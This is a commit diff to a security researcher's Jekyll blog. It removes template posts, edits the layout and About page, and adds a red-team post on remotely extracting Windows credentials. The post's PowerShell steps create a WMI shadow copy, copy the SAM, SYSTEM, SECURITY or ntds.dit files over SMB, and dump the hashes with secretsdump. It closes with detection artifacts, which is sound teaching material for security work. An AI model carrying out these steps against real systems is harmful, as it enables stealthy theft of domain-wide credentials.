

Before and after one commit to bitsadmin/bitsadmin.github.io, a Jekyll site: the page built from index.html, in a window 1280 px wide. Shown: the whole page at 85% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; the list of posts is cut into pages by our own code; before the commit the page ends 1145 px from its top, so only the background shows below that; some of the changed lines change nothing that is shown.

Commit message:
Extracting credentials from a remote Windows system + About

````diff
--- a/_posts/1970-01-01-test.md
+++ /dev/null
@@ -1,78 +0,0 @@
----
-layout: post
-title:  "Style Test"
-date:   1970-01-01 08:00
-categories: jekyll
-permalink: /blog/test
----
-
-This is just a style test post, filled with LoremIpsue. Feel free to delete the file.
-
-![](http://lorempixel.com/400/200/)
-
-# Lorem ipsum dolor
-
-Sit amet, consectetur adipiscing elit. Phasellus nisi odio, scelerisque vitae volutpat non, facilisis non erat. In gravida placerat pulvinar. Maecenas ac pretium sem. In consectetur nulla leo, ut maximus nisi volutpat eget. Vestibulum vitae malesuada risus, egestas placerat felis. In sed sollicitudin elit. Sed bibendum porttitor dui.
-
-## Condimentum mauris Accumsan
-
-Eu. Suspendisse scelerisque, orci vel elementum accumsan, sem turpis congue justo, et vulputate lacus orci vel felis. Pellentesque at gravida felis, vitae pretium erat. Pellentesque convallis mi vitae lectus semper, quis pellentesque lectus tristique.
-
-## Duis a nibh in
-
-Consectetur ultrices. Cum sociis natoque penatibus et magnis dis parturient montes, nascetur ridiculus mus.
-
-> Vivamus placerat, tortor et aliquam porttitor, risus mi dapibus neque, vitae vulputate urna.
-> -- Lorem
-
-Apurus vel sapien. Fusce at condimentum nibh.
-
-### Donec ut urna
-
-A dolor rhoncus posuere vel porttitor tortor. Integer ex lacus, sagittis ac tellus et, laoreet condimentum massa.
-
-![](http://lorempixel.com/400/400/)
-
-Aliquam tempor pharetra lacus, vel bibendum purus dapibus nec. Integer hendrerit massa ut libero euismod, id gravida neque facilisis.
-
-## Nunc nec
-
-Karan justo id turpis auctor pharetra. Fusce pretium ornare facilisis. Aliquam eget scelerisque ex, eu volutpat leo. Proin pharetra est felis, sit amet suscipit orci mattis quis.
-
-1. Etiam bibendum purus tincidunt
-2. As dapibus enim et, porta ligula.
-3. Morbi tempus, mauris sed sodales auctor, nulla erat fringilla purus, vel sodales nulla nunc sit amet purus.
-4. Praesent pellentesque urna et leo eleifend molestie ac ac ex.
-5. Ut eu sagittis metus, et malesuada libero.
-
-Class aptent taciti sociosqu ad litora torquent per conubia nostra, per inceptos himenaeos. Etiam placerat mauris a libero tempus facilisis. Maecenas ut augue lacinia, ornare mi in, lobortis arcu. Lorem ipsum dolor sit amet, consectetur adipiscing elit. Duis justo elit, blandit vel tincidunt ac, imperdiet ut neque.
-
-# Class aptent
-
-taciti sociosqu ad litora torquent per conubia nostra, per inceptos himenaeos. Aliquam erat volutpat. Sed at semper sem. Morbi in finibus tellus. Pellentesque nec dapibus risus.
-
-~~~cpp
-  #include <iostream>
-
-  int main () {
-    std::cout << "Hello world!" << std::endl;
-  }
-~~~
-
-vitae erat non congue. Proin sagittis vitae justo at cursus. Phasellus egestas bibendum urna vel condimentum.
-
-## Fusce a ullamcorper nisl
-
-Pellentesque vehicula faucibus nibh, **a pharetra odio pretium ac.** Mauris eget gravida orci, vitae tincidunt urna. Integer pharetra ante in porta maximus. Morbi ac arcu lacinia, posuere mauris vitae, lobortis dui. Lorem ipsum dolor sit amet, consectetur adipiscing elit. Nunc vitae metus nibh. Cras quis malesuada nisi. Ut porttitor, ipsum vel suscipit posuere, elit purus egestas velit, ac lobortis urna orci nec mi.
-
-## Maecenas bibendum nisi
-
-Aleo facilisis porttitor ac ac metus. **Vivamus faucibus faucibus bibendum.** Donec efficitur consectetur erat quis porttitor. Ut id euismod nunc. Sed venenatis eleifend suscipit. Donec magna purus, porta eget enim a, ornare porttitor nibh. Cras nisl nibh, viverra vitae magna quis, hendrerit facilisis sem.
-
-| table | test | lorem |
-|:-----:|:----:|:-----:|
-| Praesent ultrices | convallis lorem | at sollicitudin enim |
-| Mauris | tristique cursus | arcu ac |
-| facilisis | Proin |  vulputate neque lectus|
-
- maximus malesuada est rutrum ac. Sed blandit semper faucibus. Nam venenatis consectetur malesuada. Nulla lacus purus, ultrices ac eros porttitor, finibus sodales augue. Suspendisse tincidunt, felis in placerat euismod, libero nulla interdum nisl, commodo efficitur felis dui in libero. Integer lobortis sapien sit amet orci tristique auctor a sit amet neque. Nunc tincidunt iaculis purus eget maximus. Fusce risus justo, rutrum at magna sed, rhoncus lacinia lectus. Vivamus lobortis odio ex, ac vehicula nunc facilisis non. Aliquam fermentum diam massa. Sed cursus, nisi varius laoreet aliquet, tortor urna porta turpis, in dictum urna enim vel leo. Etiam at lacus lorem. Vivamus ornare vitae nisl vel malesuada.
--- a/_posts/2014-12-30-welcome-to-jekyll.md
+++ /dev/null
@@ -1,80 +0,0 @@
----
-layout: post
-title:  "Welcome to Jekyll and EasyBook"
-date:   2014-12-30 09:00:13
-categories: jekyll update
-permalink: /blog/hello
----
-
-You’ll find this post in your `_posts` directory. Go ahead and edit it and re-build the site to see your changes. You can rebuild the site in many different ways, but the most common way is to run `jekyll serve`, which launches a web server and auto-regenerates your site when a file is updated.
-
-To add new posts, simply add a file in the `_posts` directory that follows the convention `YYYY-MM-DD-name-of-post.ext` and includes the necessary front matter. Take a look at the source for this post to get an idea about how it works.
-
-<!--more-->
-
-GitHub Flavored Markdown is supported.
-
-```ruby
-def print_hi(name)
-  puts "Hi, #{name}"
-end
-print_hi('Tom')
-#=> prints 'Hi, Tom' to STDOUT.
-```
-
-And $$\mathcal{ Mathematics }$$ is supported!
-
-Use `$$` to wrap your formulas. For example, `$$ e^{i\pi} + 1 = 0 $$` displays $$  e^{i\pi} + 1 = 0  $$
-
-Multi-line forumlas are supported too.
-
-$$
-\begin{aligned}
-& J(w, b) = \frac{1}{m} \sum_{i=1}^{m}L(\hat{y}^{(i)}, y^{(i)})
-+ \frac{\lambda}{2m} \sum_{l=1}^{L}{||w||}^2_F\\\\
-& {||w||}^2_F = \sum_{i = 1}^{n[l]}\sum_{j = 1}^{n[l-1]}(w_{ij})^2
-\end{aligned}
-$$
-
-
-## EasyBook Advanced Functions ##
-
-You are using [EasyBook][github-easybook] the template from [laobubu.net](http://laobubu.net). Therefore some features are supported now:
-
-* **Pagination** is enabled.
-* **Disqus** or **多说** is ready.
-* **TOC** for posts is enabled.
-* **Profile** including your links and avatar on the sidebar.
-* *And more...*
-
-> **Tips:** You can disable Disqus or 多说 on posts/pages by adding `nocomments: true` into [YAML Front Matter][frontmatter].
-
-EasyBook uses upaiyun CDN to make everyone lncluding Chinese visitors feel speedy. You can find it in `_includes/footer.html` and change it to your favorite CDN like Google CDN.
-
-## Support me by... ##
-
-### Add a link ###
-
-EasyBook does not make the footer heavy; the link to theme could be on `about.md`:
-
-> This website is using [laobubu](http://laobubu.net)'s theme: [EasyBook](https://github.com/laobubu/jekyll-theme-EasyBook)
-
-### Donate (PayPal or 支付宝) ###
-
-That's the best :smile:
-
-Please visit [http://laobubu.net/donate.html](http://laobubu.net/donate.html)
-
-### Star and Fork on GitHub (free) ###
-
-Not going to donate? That's okay. You can also send out your precious star [on GitHub][github-easybook].
-
-## And Here We Go ##
-
-Check out the [Jekyll docs][jekyll] for more info on how to get the most out of Jekyll. File all bugs/feature requests at [Jekyll’s GitHub repo][jekyll-gh]. If you have questions, you can ask them on [Jekyll’s dedicated Help repository][jekyll-help].
-
-[jekyll]:      http://jekyllrb.com
-[jekyll-gh]:   https://github.com/jekyll/jekyll
-[jekyll-help]: https://github.com/jekyll/jekyll-help
-[frontmatter]: http://jekyllrb.com/docs/frontmatter/
-[github-easybook]: https://github.com/laobubu/jekyll-theme-EasyBook
--- /dev/null
+++ b/_posts/2020-05-26-extracting-credentials.md
@@ -0,0 +1,125 @@
+---
+layout: post
+title:  "Extracting credentials from a remote Windows system - Living off the Land"
+date:   2020-05-26 09:00:00
+categories: living-off-the-land windows credentials
+permalink: /blog/extracting-credentials-from-remote-windows-system
+---
+
+Recently we performed a red teaming engagement where we wanted to dump the credentials from a remote host. We got the credentials of a user which has administrative privileges on the victim host and wanted to get more credentials from that host. Because we felt that the blue team was closely observing the environment this needed to be done in a stealthy manner and preferably only involving native Windows tooling. That is when we came up with the following approach in order to obtain a remote system's `SYSTEM`, `SECURITY` and `SAM` files from `%SystemRoot%\System32\Config` making use of WMI and SMB. This approach can also be used to obtain the `ntds.dit` file from a Domain Controller in order to obtain the credentials of the complete organization.
+
+# Conditions
+In this article we will first use our attacker Windows machine to make a shadow copy on the remote system using WMI and then use SMB to download the credential files from the shadow copy. Assumptions are that ports 445/TCP (SMB) _and_ one of 135/TCP (DCOM), 5985/TCP (WinRM) or 5986/TCP (WinRM over SSL) are accessible, and we have administrative access to the victim machine. We will be using DCOM which uses port 135/TCP to communicate. Moreover, the current PowerShell instance is running as a user which has administrative access on the victim host (DC01.mydomain.local) obtain the local credentials.
+
+# Small introduction to WMI
+WMI stands for Windows Management Instrumentation and can be used to read out management information from Windows and perform actions on a variety of components which provide a WMI interface. WMI can be accessed locally using for example PowerShell, VBScript, wmic.exe and COM, while remotely WMI can be accessed using WinRM and DCOM.
+
+# Session establishment
+In case you are executing this attack from a machine outside of the domain, or whenever you need to use different credentials to authenticate to the victim host, use the `runas.exe` tool to launch your PowerShell with credentials which can be used to authenticate. Now whenever this PowerShell instance is requested to authenticate on the network, it will use the credentials as provided to the `runas.exe` tool. Alternatively the `-Credential` parameter can be used for the `New-CimSession` cmdlet.
+```
+runas.exe /netonly /user:MyDomain\MyUser powershell.exe
+```
+After launching PowerShell we start with initiating a new Cim session with the remote host over DCOM and storing this in the `$s` variable. In case you want to use WinRM instead, omit the `-SessionOption` parameter of the `New-CimSession` cmdlet.
+```powershell
+PS C:\> $h = 'DC01.mydomain.local'
+PS C:\> $so = New-CimSessionOption -Protocol Dcom
+PS C:\> $s = New-CimSession -ComputerName $h -SessionOption $so
+```
+
+# Create shadow copy
+Once the session is established we invoke the `Create` function of the `Win32_ShadowCopy` WMI class [1] providing the `Volume` parameter to create a shadow copy of the Windows installation drive which contains the files we want to obtain. Once executed, The `ReturnValue` of `0` shows that creation of the shadow copy was successful. Based on the `ShadowID` we fetch all details of the shadow copy. An alternative to creating a new shadow copy would be to check if there are already any (recent) shadow copies, in which case you can simply use that shadow copy and proceed with the next steps. This can be done by executing the `Get-CimInstance` cmdlet below without the `-Filter` parameter.
+
+```powershell
+PS C:\> $r = Invoke-CimMethod -ClassName Win32_ShadowCopy -MethodName Create -Arguments @{Volume='C:\'} -CimSession $s
+PS C:\> $r
+
+                            ReturnValue ShadowID                                PSComputerName
+                            ----------- --------                                --------------
+                                      0 {B15008D8-0C63-468C-AED7-ED4DB0CFD082}  DC01.mydomain.local
+
+
+PS C:\> $c = Get-CimInstance -ClassName Win32_ShadowCopy -CimSession $s -Filter "ID=`"$($r.ShadowID)`""
+PS C:\> $c
+
+
+Caption            :
+Description        :
+InstallDate        : 4/19/2020 9:34:01 PM
+Name               :
+Status             :
+ClientAccessible   : True
+Count              : 1
+DeviceObject       : \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy6
+Differential       : True
+ExposedLocally     : False
+ExposedName        :
+ExposedPath        :
+ExposedRemotely    : False
+HardwareAssisted   : False
+ID                 : {B15008D8-0C63-468C-AED7-ED4DB0CFD082}
+Imported           : False
+NoAutoRelease      : True
+NotSurfaced        : False
+NoWriters          : True
+OriginatingMachine : DC01.mydomain.local
+Persistent         : True
+Plex               : False
+ProviderID         : {B5946137-7B9F-4925-AF80-51ABD60B20D5}
+ServiceMachine     : DC01.mydomain.local
+SetID              : {083BBDBA-4517-45A2-A62E-3F52020BC47C}
+State              : 12
+Transportable      : False
+VolumeName         : \\?\Volume{482bdb36-8a72-40a4-9b12-912d2783ef39}\
+PSComputerName     : DC01.mydomain.local
+```
+
+# Obtain credential files
+We want to copy the files from the SMB share, not simply from the `C$` share, but from the specific shadow copy we created. In Windows Explorer shadow copies are also known as Previous Versions which can be listed by opening the properties of a certain folder and then navigating to the Previous Versions tab. These Previous Versions are also accessible from the command line which is a date in a certain format prefixed with the @-symbol. Based on the shadow copy which is stored in the `$c` variable, we will compile the path from which to copy the files in the following PowerShell line.
+```powershell
+PS C:\> $p = '\\{0}\C$\{1}\Windows\System32\config' -f $h,$c.InstallDate.ToUniversalTime().ToString("'@GMT-'yyyy.MM.dd-HH.mm.ss")
+PS C:\> $p
+\\DC01.mydomain.local\C$\@GMT-2020.04.19-19.34.01\Windows\System32\config
+```
+After compiling the path we will copy the required files using the copy command to our local disk (in this case `C:\tmp`). Because creating the shadow copy might take a while when attempting to copy the files from the shadow copy path too quickly, it will result in an error that the path does not exist. In that case wait a bit and try again. In case you want to obtain the password hashes from a Domain Controller, this approach can also be used to remotely obtain the `ntds.dit` file from the (by default) `%SystemRoot%\NTDS` folder.
+```powershell
+PS C:\> copy $p\SYSTEM C:\tmp
+PS C:\> copy $p\SECURITY C:\tmp
+PS C:\> copy $p\SAM C:\tmp
+```
+After we successfully obtained the files containing the credentials we will perform the cleanup of shadow copy we created and close the connection to the victim host.
+```powershell
+PS C:\> $c | Remove-CimInstance
+PS C:\> $s | Remove-CimSession
+```
+
+# Obtain and crack hashes
+With the SYSTEM, SECURITY and SAM files or SYSTEM and NTDS.dit file now in our C:\tmp folder we can use our favorite tool to obtain the hashes. An example of such tool is secretsdump.py from Impacket [2].With the SYSTEM, SECURITY and SAM files or SYSTEM and NTDS.dit file now in our C:\tmp folder we can use our favorite tool to obtain the hashes. An example of such tool is secretsdump.py from Impacket [2].
+
+## SAM
+```bash
+secretsdump.py -system SYSTEM -security SECURITY -sam SAM LOCAL
+```
+
+## ntds.dit
+```bash
+secretsdump.py -system SYSTEM -ntds ntds.dit LOCAL
+```
+Subsequently the resulting hashes can be cracked with tools like John or Hashcat, or used in a pass the hash attack.
+
+# Detection and artifacts
+* Event ID 7036 on the victim host stating that the Microsoft Software Shadow Copy Provider service has been started
+* Anomalous RPC/DCOM and SMB network connections between hosts which usually do not communicate
+
+# Closing thoughts
+Because the blue team is increasingly monitoring activity on both the network as well as on the machines itself, the red team is increasingly pushed towards using Windows native administrative tooling to stay under the radar. This attack shows that using WMI and SMB you are perfectly able to do that from PowerShell which will blend in with the management activities system administrators are performing on the network and systems.
+
+# References
+1. [Microsoft Docs - Create method of the Win32_ShadowCopy class](https://docs.microsoft.com/en-us/previous-versions/windows/desktop/vsswmi/create-method-in-class-win32-shadowcopy)
+2. [secretsdump.py in the Impacket library repository](https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py)
+
+# MITRE ATT&CK® references
+* [Windows Management Instrumentation](https://attack.mitre.org/techniques/T1047/)
+* [Windows Remote Management](https://attack.mitre.org/techniques/T1028/)
+* [Remote File Copy](https://attack.mitre.org/techniques/T1105/)
+* [Windows Admin Shares](https://attack.mitre.org/techniques/T1077/)
+* Also related: [Inhibit System Recovery](https://attack.mitre.org/techniques/T1490/)
--- a/_sass/_layout.scss
+++ b/_sass/_layout.scss
@@ -4,7 +4,7 @@ body {
 
 .wrapper {
 	margin: 0 auto;
-	max-width: 1100px;
+	max-width: 1600px;
 }
 @media (max-width: 1120px) {
 	.wrapper {
@@ -49,7 +49,7 @@ body {
 	}
 }
 
-$col-main-width: 800px;
+$col-main-width: 1300px;
 $col-secnod-width: 300px;
 $hide-sidebar-screen-width: 1120px;
 
--- a/about.md
+++ b/about.md
@@ -4,6 +4,21 @@ title: About
 permalink: /about/
 ---
 
-Welcome to this website!
+I am a technical specialist and manager in Deloitte’s Cyber Security team in which I perform a myriad of roles ranging from technical research and red teaming to innovating the way we work in the Cyber team.
 
+From my childhood I have been intrigued by computer systems and networks and because of this fascination I have been on a continuous quest to understand more and dig deeper into how things work. In my daily work I use this knowledge to perform state of the art research on the offensive side of security and by performing red teams identifying weaknesses in client’s systems and infrastructures.
+
+Additionally I enjoy bringing order into chaos and optimize processes. In my leadership roles in both the Red Team as well as the broader Secure and Cyber team I do this by pursuing my vision of further making the Cyber team a strong, well-oiled machine in which people can explore and develop their talents and use them in the best way possible to make this world a better place.
+
+Among other certifications I am holder of the OSCP, OSCE and OSEE certifications from Offensive Security.
+
+You can find and connect with me online on:
+
+* [LinkedIn](https://www.linkedin.com/in/arrishuijgen/)
+* [Twitter](https://twitter.com/bitsadmin/)
+* [GitHub](https://github.com/bitsadmin/)
+* [Website](https://bitsadm.in/)
+
+<!--
 > This website is using [laobubu](http://laobubu.net)'s theme: [EasyBook](https://github.com/laobubu/jekyll-theme-EasyBook)
+-->
````
